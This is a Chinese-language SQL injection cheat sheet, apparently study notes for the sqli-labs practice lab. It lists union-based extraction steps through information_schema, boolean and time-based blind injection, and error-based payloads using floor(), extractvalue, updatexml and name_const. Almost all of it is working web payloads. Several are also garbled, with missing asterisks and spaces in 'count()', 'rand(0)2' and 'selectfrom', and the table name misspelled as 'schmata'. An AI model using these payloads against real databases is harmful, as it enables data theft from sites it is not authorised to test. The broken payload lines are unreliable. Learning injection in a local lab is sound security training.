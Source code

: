 ### 基本流程

1. 判断字段数目order by 4...
2. 判断显示位 union select 1,2,3,4...
3. 查看当前数据库union select 1,2,database()
4. 查表名union select 1,2,table_name from information_schema.tables where table_schema=database()
5. 查列名union select 1,2,column_name from information_schema.columns where table_name='表名' and table_schema=database()
6. 查询字段值union select 1,字段名,字段名 from 表名

## 盲注

### 基于布尔的盲注

这里主要使用mid(),substr(),left()这几个函数来截取字符串慢慢尝试

1. 猜解当前数据库名称长度 and (length(database()))>1
2. 通过http://127.0.0.1/sqli/Less-5/?id=1' and left((select database()),1)='s'--+ 判断第一位是否是s，然后可以用bp逐步进行爆破处理
3. 或者使用if来判断测试http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select database()),1,1))>156--+来通过二分法逐步判断
4. 之后就是正常的注入流程，不断的猜表名、猜字段名和猜内容

### 基于时间的SQL盲注

一般来说，在页面没有任何回显和错误信息提示的时候，我们就会测试时间盲注的方法

主要通过if(length(database())=8,1,sleep())这样来判断语句是否注入成功
之后就是类似于布尔盲注的形式进行判定注入

例：/?id = 1' and if((substr((select schema_name from information_schema.schmata limit 4,1),1,8)='security'),1,sleep(5))--+

## 报错注入

### floor()报错

> and select 1 from (select count(),concat(version(),floor(rand(0)2))x from information_schema.tables group by x)a);

### 通过ExtractValue报错

> and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

### 通过UpdateXml报错

> and 1=(updatexml(1,concat(0x3a,(select user())),1))

### 通过NAME_CONST报错注入

> and exists(selectfrom (selectfrom(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)
